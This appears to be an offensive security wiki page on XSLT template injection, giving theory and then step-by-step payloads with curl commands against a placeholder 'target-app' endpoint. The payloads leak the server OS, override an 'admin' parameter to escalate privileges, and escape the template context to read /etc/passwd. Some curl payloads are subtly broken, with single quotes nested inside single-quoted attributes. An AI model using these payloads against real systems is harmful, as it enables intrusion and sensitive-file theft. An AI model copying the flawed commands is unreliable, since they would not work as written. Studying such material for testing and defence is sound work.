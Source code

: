 ```yaml
---
title: Exploiting XSLT Template Injection in Web Apps
description: Learn to exploit XSLT Template Injection for executing arbitrary code
  and accessing sensitive data in web applications.
keywords:
- XSLT Template Injection
- dynamic template generation
- code execution
- data access
- template manipulation
- context escape
- XSLT parameter injection
---
```


# Template Injection

## Context

Template Injection involves exploiting vulnerabilities in applications that use XSLT (Extensible Stylesheet Language Transformations) for dynamic template generation. This technique allows attackers to execute code or manipulate logic by injecting malicious templates or altering existing logic. The objective is to manipulate template construction in XSLT, leading to potential code execution, data access, or logic modification. This content assumes familiarity with XSLT processing internals, template engine operation, XML structure and parsing, and general XSLT injection techniques.

## Theory

### Dynamic Template Generation in XSLT

Dynamic template generation in XSLT occurs when templates are constructed or modified during runtime based on user input. This approach can make applications vulnerable if templates are not properly sanitized. When user-controlled data influences template definitions, it can alter XSLT logic or inject malicious code.

### Template Parameter and Variable Injection

Template parameter injection involves influencing the values of `<xsl:param>` or `<xsl:variable>` elements in XSLT templates. If these parameters are improperly sanitized, attackers can inject values that modify the intended logic of the transformation. This vulnerability model allows the attacker to define or override template variables, which can significantly influence the output of the transformation.

### Template Manipulation and Poisoning

Template manipulation refers to altering or injecting new `<xsl:template>` blocks into the XSLT processing sequence. By doing so, attackers can hijack the transformation process, enabling the execution of arbitrary code or the exfiltration of sensitive data. The typical attack sequence involves injecting a malicious template that is eventually invoked during the transformation.

### Context Escape in XSLT

Context escape in XSLT occurs when an attacker bypasses the intended restrictions of the template logic. By crafting inputs that challenge weak validation mechanisms, attackers can inject unauthorized templates or parameters. This technique enables them to execute arbitrary XSLT instructions outside the initially intended context.

## Practice

### Injecting a Malicious XSLT Template via User Input

- Identify user input reflected in XSLT template construction. Focus on parameters or variables within the XSLT code that are affected by user inputs.
- Inject the following payload to define a new template:
  ```xml
  <xsl:template match="/">
      <xsl:value-of select="system-property('os.name')"/>
  </xsl:template>
  ```
  This payload is designed to leak the server's operating system information.
- Use the following command to inject the payload via CURL:
  ```bash
  curl -X POST -d "template=<xsl:template match='/'> <xsl:value-of select='system-property('os.name')'/> </xsl:template>" https://target-app/upload-xslt
  ```
- Trigger the XSLT transformation process to ensure the template is processed. This action tests whether the injected template is executed.

### Overriding XSLT Parameters to Influence Logic

- Locate the `<xsl:param>` or `<xsl:variable>` elements that receive data from user input. Determine how these inputs are influencing XSLT parameters.
- Inject a payload to override an XSLT parameter:
  ```xml
  <xsl:param name="admin">true</xsl:param>
  ```
  This payload attempts to escalate privileges by overriding the 'admin' parameter.
- Use the CURL command to inject this parameter override:
  ```bash
  curl -X POST -d "param=<xsl:param name='admin'>true</xsl:param>" https://target-app/upload-xslt
  ```
- After injection, check if access is granted to application features normally restricted by the 'admin' parameter.

### Context Escape to Inject Arbitrary XSLT Instructions

- Examine input fields for opportunities to escape the current context (e.g., through unescaped template fragments).
- Attempt context escape by injecting a payload to close existing templates and inject new instructions:
  ```xml
  </xsl:template><xsl:template match="/"> <xsl:value-of select="document('file:///etc/passwd')"/> </xsl:template>
  ```
  This payload attempts to read sensitive files from the server.
- Use CURL to submit the payload:
  ```bash
  curl -X POST -d "template=</xsl:template><xsl:template match='/'> <xsl:value-of select='document('file:///etc/passwd')'/> </xsl:template>" https://target-app/upload-xslt
  ```
- Review the output to see if the content of the sensitive file has been exposed, verifying the success of the context escape and arbitrary code execution.

## Tools

- **curl**
- **Burp Suite**